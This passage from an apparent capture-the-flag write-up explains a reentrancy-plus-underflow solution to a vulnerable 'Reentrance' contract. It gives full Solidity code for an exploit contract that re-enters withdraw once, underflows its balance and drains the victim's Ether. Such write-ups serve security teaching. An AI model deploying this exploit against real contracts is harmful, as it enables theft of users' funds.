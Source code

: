 At this point, we would be able to call`withdraw` withdrawing the whole amount of Ether stored in the victim's contract!

**Note:** this second solution is **only** possible because of underflow. If the underflow problem wasn't there, we would be still able to solve the challenge via the Reentrancy loop solution.

## Solution code

Let's review the second solution. Here's the code of the contract you need to deploy to use both Reentrancy and Underflow

```solidity
contract ExploiterUnderflow {
    Reentrance private victim;
    address private owner;
    uint256 private initialDonation;
    bool private exploited;

    constructor(Reentrance _victim) public {
        owner = msg.sender;
        victim = _victim;
        exploited = false;
    }

    function withdraw() external {
        uint256 balance = address(this).balance;
        (bool success, ) = owner.call{value: balance}("");
        require(success, "withdraw failed");
    }

    function exploit() external payable {
        require(msg.value > 0, "donate something!");
        initialDonation = msg.value;

        // donate 1 wei to ourself
        victim.donate{value: msg.value}(address(this));

        // withdraw 1 way and trigger the re-entrancy exploit
        victim.withdraw(initialDonation);

        // because the victim contract underflowed our balance
        // we are now able to drain the whole balance of the contract
        victim.withdraw(address(victim).balance);
    }

    receive() external payable {
        // We need to re-enter only once
        // By re-entering our new balance will be equal to (2^256)-1
        if (!exploited) {
            exploited = true;

            // re-enter the contract withdrawing another wei
            victim.withdraw(initialDonation);
        }
    }
}
```
